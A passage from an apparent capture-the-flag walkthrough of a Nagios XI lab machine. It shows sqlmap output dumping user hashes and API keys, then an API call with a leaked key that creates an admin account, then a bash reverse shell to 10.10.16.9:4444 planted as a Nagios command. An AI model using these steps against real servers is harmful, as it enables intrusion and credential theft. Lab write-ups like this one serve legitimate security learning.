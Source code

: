 ```shell
OUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1699730174   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 3              | 1699697433           |
| 6       | whoami@local.com    | whoami               | 5FSvtms0KS847IUd9fZ05prj9NV60eQbkt0qQicG8oUq6jXQCi8ufJBMTc2F4cbh | 1       | $2a$10$9b2be203cb46a8d77b42fu1cq1gEixJMUkE8Thwe6.YhT/C7dDwqO | whoami      | 0          | 1708612148 | 0           | 0           | 0            | 0            | 30U3n54rr5IDUqbl3fnFNVvCNXkeSVGcRTldVV7CahAjLrkt2pUaZMqoh98Nbhum | 0              | 0              | 1708612400           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+

[20:31:11] [INFO] table 'nagiosxi.xi_users' dumped to CSV file '/home/pl4int3xt/.local/share/sqlmap/output/nagios.monitored.htb/dump/nagiosxi/xi_users.csv'
[20:31:11] [INFO] fetched data logged to text files under '/home/pl4int3xt/.local/share/sqlmap/output/nagios.monitored.htb'

[*] ending @ 20:31:11 /2024-02-22/
```

I dumped the database. Next i tried cracking the passwords but i could not find anything. After doing more research i came across this blog that allows one to [add new user](https://support.nagios.com/forum/viewtopic.php?f=16&t=42923) using the api key. Next i fired up insomnia and made a post request to ```http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1``` 

![img-description](3.png)

An admin user was created successfully. I used the created user credentials to login into the admin dashboard. We then navigate to configure -> Core Config Manager -> commands. We create a new command and write our reverse shell.

```shell
bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1'
```
